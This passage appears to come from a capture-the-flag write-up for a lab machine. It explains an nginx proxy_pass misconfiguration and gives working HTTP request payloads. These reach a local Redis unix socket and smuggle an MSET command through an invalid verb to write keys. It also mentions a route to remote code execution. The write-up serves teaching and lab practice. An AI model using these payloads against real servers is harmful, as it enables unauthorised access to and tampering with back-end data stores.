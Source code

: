 
This isn’t the full nginx config. There must be more in other files (for
things like the downloads from `/content`). I reasonably could guess the path
to those, but I didn’t here. I’ll look at this a bit in Beyond Root.

#### proxy_pass Bug

That last block of the nginx config has a vulnerability in it. It will match
on any URL of the form `/static/${1}/${2}`, and proxy it to
`http://${1}.microbucket.htb/${2}`. This is simulating something like a
scenario where different sites might have different cloud storage buckets set
up. [This blog post](https://labs.detectify.com/2021/02/18/middleware-
middleware-everywhere-and-lots-of-misconfigurations-to-fix/) has a really nice
example of why this kind of pattern exists, and how to exploit it.

The idea is to abuse this to connect to a unix socket. From the post above, if
I pass in:

    
    
    GET /static/unix:%2fvar%2frun%2fredis%2fredis.sock:TEST/app.js HTTP/1.1
    Host: example.com
    

Then this will make:

    
    
    http://unix:/var/run/redis/redis.sock:TEST.microbucket.htb/app.js
    

That will end up sending this request to the socket:

    
    
    GET TEST.microbucket.htb/app.js HTTP/1.0
    Host: localhost
    

The post continues showing how to write keys. I can send a request that isn’t
a valid HTTP verb (like GET or POST), and it still gets processed and passed
by nginx. If I send this HTTP request:

    
    
    MSET /static/unix:%2fvar%2frun%2fredis%2f/redis.sock:hacked%20%22true%22%20/anything.js HTTP 1.1
    Host: app.microbucket.htb
    

That will reach the socket as:

    
    
    MSET hacked "true" microbucket.htb/anything.js HTTP/1.0
    Host: localhost
    

That will set the key `hacked` to true (and likely crash the rest of the
command).

This is taking advantage of the fact that `MSET` allows for setting multiple
keys in the same line.

There’s more in the post about getting RCE from this, but I wasn’t able to
make that work on Format.
